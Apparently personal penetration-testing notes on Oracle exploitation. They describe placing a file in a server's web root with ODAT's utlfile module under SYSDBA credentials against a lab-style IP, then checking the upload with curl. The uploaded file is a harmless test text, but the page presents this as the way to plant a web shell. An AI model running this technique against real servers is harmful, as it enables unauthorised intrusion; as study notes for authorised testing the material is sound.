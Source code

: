 ```yaml
---
id: Exploitation
aliases: []
tags: []
---
```


# Exploitation

<!-- File Upload {{{-->
## File Upload

It may be possible to upload a web shell to the target with
[[Enumeration#ODAT|ODAT]] if

- the server is running a web server
- the server's [[Webapp/General/Web Server Root#Default|root directory location]]
  is known

1. Create a payload

```sh
echo "Oracle File Upload Test" > testing.txt
```

2. Upload the file to the database with [[Enumeration#ODAT|ODAT]]

```sh
./odat.py utlfile -s <target_ip> -d XE -U <use> -P <password> --sysdba --putFile C:\\path\\to <file.ext> ./testing.txt
```

<!-- Example {{{-->
> [!example]-
>
> ```sh
> ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
> ```
>
> > [!info]-
> >
> > - `utlfile`: [Oracle UTL_FILE](https://docs.oracle.com/database/121/ARPLS/u_file.htm)
> >   functionality to upload a file
> > - `-s 10.129.204.235`: target IP of the Oracle instance.
> > - `-d XE`: database/SID (Oracle XE).
> > - `-U scott`: username
> > - `-P tiger`: password in cleartext
> > - `--sysdba`: run with SYSDBA privileges
> > - `--putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt`:
> >   upload a file to the DB server's filesystem
> >
>
> ```sh
> [1] (10.129.204.235:1521): Put the ./testing.txt local file in the C:\inetpub\wwwroot folder like testing.txt on the 10.129.204.235 server
> [+] The ./testing.txt file was created on the C:\inetpub\wwwroot directory on the 10.129.204.235 server like the testing.txt file
> ```
<!-- }}} -->

3. Test if the uppload worked with [cURL](https://curl.se/)

```sh
curl -X GET http://10.129.204.235/testing.txt
```
```sh
Oracle File Upload Test
```

<!-- }}} -->
